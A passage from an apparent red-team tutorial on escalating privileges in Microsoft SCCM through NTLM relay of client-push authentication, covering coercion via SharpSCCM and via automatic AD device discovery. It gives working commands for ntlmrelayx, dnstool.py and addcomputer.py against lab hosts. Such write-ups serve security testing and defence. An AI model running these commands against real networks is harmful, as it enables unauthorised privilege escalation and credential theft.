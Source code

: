 To perform this attack, first utilize SharpSCCM written by Chris Thompson to register a fake client device on the site server using low-privilege user credentials, using the address of our attacker controlled relay server as a target:

```
SharpSCCM.exe invoke client-push -t 192.168.1.50
```

![image](https://logan-goins.com/assets/img/sccm/elevate-2-sharpsccm.png)

after a few minutes, the site server will send authentication to our relay server and attempt to install a client on the automatically approved device, allowing us to relay the `LAB\SCCM-CLIENTPUSH` high privilege account authentication to devices without SMB signing:

Before authentication occurs, the relay should have already been configured with the command:

```
ntlmrelayx.py -t mssql01.lab.lan -smb2support
```

![image](https://logan-goins.com/assets/img/sccm/elevate-2-ntlmrelayx.png)

## ELEVATE-3 - NTLM Relay with Automatic Client Push Authentication Via Device Discovery

Active Directory device discovery in SCCM environments is when the site server uses Active Directory to search for computers which have not been added to the site, then adds them automatically. This option is useful for system administrators who want the most automated client deployment possible. Once a computer account is added to the domain the site server searches LDAP for new computer objects, automatically approves them, then automatically attempts to deploy clients to them.

Just like `ELEVATE-2` we can coerce and relay client push installation account authentication, but because of automated AD device discovery we aren't required to execute SharpSCCM for client push requests to the site server. We can instead elicit the authentication just by adding a computer object and a DNS A record to LDAP, which is possible under low-privilege domain user context through a proxy.

Adding the DNS A record can be done by using `dnstool.py` from `krbrelayx`:

```
python3 /opt/krbrelayx/dnstool.py -u 'lab.lan\jdoe' -p P@ssw0rd -r attacker.lab.lan -a add -t A -d 192.168.1.50 192.168.1.2
```

![image](https://logan-goins.com/assets/img/sccm/elevate-3-dns.png)

Then add the computer account to LDAP for the site server to automatically discover:

```
addcomputer.py -computer-name 'attacker$' -computer-pass P@ssw0rd -dc-ip 192.168.1.2 lab.lan/jdoe:'P@ssw0rd'
```

![image](https://logan-goins.com/assets/img/sccm/elevate-3-computer.png)

After the default 5 minute delta timer, the site server should automatically detect the computer object in LDAP and reference the DNS A record, successfully sending high privilege authentication from the client push installation account which can be relayed. Once again the relay can be configured with the command:
